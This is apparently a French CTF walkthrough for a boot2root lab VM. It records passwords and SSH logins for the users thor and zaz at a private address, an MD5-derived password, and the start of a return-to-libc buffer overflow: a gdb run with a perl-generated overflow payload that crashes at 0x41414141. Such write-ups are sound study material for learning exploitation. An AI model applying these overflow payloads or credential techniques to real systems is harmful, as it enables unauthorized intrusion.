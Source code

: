### Defused ?

La bomb est defused mais quand on tape le mdp pour Thor ça ne fonctionne pas :

```bash
Publicspeakingisveryeasy.126241207201b2149opekmq426315
```

Sur le slack, il est dit qu'il faut inverser 2 caracteres, donc en bruteforcant un peu on obtient le vrai mot de passe :

```bash
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

on peut donc se connecter

```bash
ssh thor@192.168.0.30 -p 22
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

## Thor

Une fois connecté, le README demande juste de résoudre l'exo et de s'en servir comme mdp pour zaz
Quand on cat on obtient un long texte avec à la fin "Can you digest the message? :)"

On comprends que c'est un algo de dessin et en tapant des bouts de code sur Google on trouve le "turtle" qui est, comme par hasard, le nom du fichier.

Samy nous a donc fait un super algo pour nous l'afficher ! (cf turtle_Samy.py)

On obtient SLASH

Le mot de passe ne passe pas pour zaz, on cherche donc digest message sur Google et on tombe sur... MD5 !

On fait donc le md5 de SLASH et on obtient : 646da671ca01bb5d84dbb5fb2238dc8e

## Zaz

On se connecte :

```bash
ssh zaz@192.168.0.30 -p 22
646da671ca01bb5d84dbb5fb2238dc8e
```

On suit le tutoriel de :
https://beta.hackndo.com/retour-a-la-libc/

```bash
            (gdb) r $(perl -e 'print "A"x140 . "\xef\xbe\xad\xde"')
                Starting program: /home/zaz/exploit_me $(perl -e 'print "A"x200 . "\xef\xbe\xad\xde"')
                perl: warning: Setting locale failed.
                perl: warning: Please check that your locale settings:
                    LANGUAGE = (unset),
                    LC_ALL = (unset),
                    LC_TERMINAL_VERSION = "3.3.12",
                    LC_CTYPE = "fr_FR.UTF-8",
                    LC_TERMINAL = "iTerm2",
                    LANG = "en_US.UTF-8"
                    are supported and installed on your system.
                perl: warning: Falling back to the standard locale ("C").
                AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�

                Program received signal SIGSEGV, Segmentation fault.
                0x41414141 in ?? ()
```